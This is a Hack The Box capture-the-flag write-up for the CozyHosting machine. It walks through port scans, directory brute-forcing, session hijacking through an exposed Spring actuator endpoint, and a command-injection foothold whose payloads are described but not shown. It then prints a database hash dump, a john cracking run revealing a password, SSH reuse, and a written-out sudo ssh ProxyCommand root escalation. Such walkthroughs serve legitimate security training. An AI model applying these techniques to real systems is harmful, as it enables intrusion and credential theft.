

# CozyHosting

This is the write-up for CozyHosting machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the host.

```bash
╭─th3g3ntl3m4n@garuda in ~/htb/seasonals/cozyhosting took 22ms
 ╰─λ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.129.106.244
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now, we execute a port scan only on the open ports that were found before.

```bash
╭─th3g3ntl3m4n@garuda in ~/htb/seasonals/cozyhosting as 🧙 took 3m45s
 ╰─λ sudo nmap -vv -sV -sC -Pn -p 22,80 -oA nmap/cozyhosting 10.129.106.244
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, we have to write the domain down in our /etc/hosts file.



Now, we access the web page and get the following.


# Enumeration

We execute a brute-force directory enumeration on the root URL’s application using the quickhits wordlist from SecLists.

```bash
╭─th3g3ntl3m4n@garuda in ~/htb/seasonals/cozyhosting as 🧙 took 30ms
 ╰─λ gobuster dir -e -u "http://cozyhosting.htb/" -w "/opt/SecLists/Discovery/Web-Content/quickhits.txt" -t 40 -o gobuster/cozyhosting_root
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/quickhits.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://cozyhosting.htb/%ff/                 (Status: 400) [Size: 435]
http://cozyhosting.htb/actuator             (Status: 200) [Size: 634]
http://cozyhosting.htb/error                (Status: 500) [Size: 73]
http://cozyhosting.htb/login                (Status: 200) [Size: 4431]
http://cozyhosting.htb/actuator             (Status: 200) [Size: 634]
http://cozyhosting.htb/actuator/env         (Status: 200) [Size: 4957]
http://cozyhosting.htb/actuator/health      (Status: 200) [Size: 15]
http://cozyhosting.htb/actuator/sessions    (Status: 200) [Size: 48]
http://cozyhosting.htb/actuator/mappings    (Status: 200) [Size: 9938]
http://cozyhosting.htb/actuator/beans       (Status: 200) [Size: 127224]
```

As we can see, we are in a Spring MVC environment because there is the `/actuator` endpoint. Accessing the [http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions) we got the kanderson user session login.


We go to the login page and change the session cookie for this we have got and we were able to bypass the login without credentials


In the form in the bottom of the dashboard page, we catch the request of the 


We catch the request of the form using Burp Suite and send it to the repeater tool.


Testing the fields, we noticed that there is a possible command injection in the username field.


# Exploitation

After some payloads, we could trigger the command injection using this.


Send it to the server, we got.


We noticed that the application doesn’t allow us to insert whitespace in the user name, so we could bypass it using `${IFS}`. Executing curl command like this.


We received the connection back to our Python HTTP server.


Now, we execute the following payload through the curl tool to get our shell file below.


Checking our port listener, we get a shell on the host.


# Lateral Movement

Searching on the box, we got some credentials for user kanderson with the pspy64 tool, but this credential only works on the web application.


We execute the `zipgrep` tool ([https://linux.die.net/man/1/zipgrep](https://linux.die.net/man/1/zipgrep)) in order to verify if there is some sensitive information on `cloudhosting-0.0.1.jar` application in the app directory.


We have found the password for the data source, that is the database, of the application. Checking the local ports open, we found that the host is running the PostgreSQL database system.


Using the psql tool, we connect to the database.

```bash
(remote) app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres -W
Password: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

We list all the databases and connect to the web application database.

```bash
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=#

```

Now, we listed all the tables from cozyhosting database selected.

```bash
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```

We query the users table and get the following data.

```bash
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

We know the credentials of the user kanderson, so we try to crack the admin user’s hash.

```bash
╭─th3g3ntl3m4n@garuda in ~/htb/seasonals/images/exploitation as 🧙 took 255ms
[🔴] × john --format=bcrypt --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou-75.txt admin_webapp.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (admin)
1g 0:00:00:31 DONE (2023-09-05 14:27) 0.03185g/s 89.45p/s 89.45c/s 89.45C/s andrea1..febrero
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we know that there is a user called josh. We try to log into SSH service with this cracked password.

```bash
╭─th3g3ntl3m4n@garuda in ~/htb/seasonals/images/exploitation as 🧙 took 33s
 ╰─λ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep  5 06:29:54 PM UTC 2023

  System load:           0.0
  Usage of /:            53.6% of 5.42GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             242
  Users logged in:       0
  IPv4 address for eth0: 10.129.106.244
  IPv6 address for eth0: dead:beef::250:56ff:feb0:7a55

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
```

# Privilege Escalation

We execute `sudo -l` command and get the following.

```bash
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

We see that Josh can execute the ssh tool without a password. Searching on GTFOBins website, we found a way to get root.

[ssh
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/ssh/)

Executing the payload like this `sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x` we were able to escalate our privilege to the root user.

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# id
uid=0(root) gid=0(root) groups=0(root)
```

